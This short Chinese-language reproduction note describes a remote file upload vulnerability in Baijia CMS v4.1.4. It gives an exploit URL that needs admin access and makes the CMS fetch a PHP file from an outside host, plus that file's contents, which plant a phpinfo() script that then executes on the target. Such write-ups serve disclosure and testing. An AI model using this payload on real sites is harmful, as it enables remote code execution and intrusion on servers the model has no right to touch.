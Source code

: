 # 百家cms v4.1.4 远程文件上传漏洞

### 一、漏洞简介

### 二、漏洞影响

百家cms v4.1.4

### 三、复现过程


```bash
# 需要后台权限
http://url/index.php?mod=web&do=file&m=public&op=fetch&url=http://xx.xx.xx.xx/test/test.php
```

远程服务器起一个/test/test.php，内容为**<?php echo "<?php phpinfo();";**

![](images/15896949616547.png)


访问payload，得到路径

![](images/15896949744228.png)


访问路径，执行代码

![](images/15896949816950.png)

查看本地文件

![](images/15896949950990.png)


参考链接

https://xz.aliyun.com/t/7542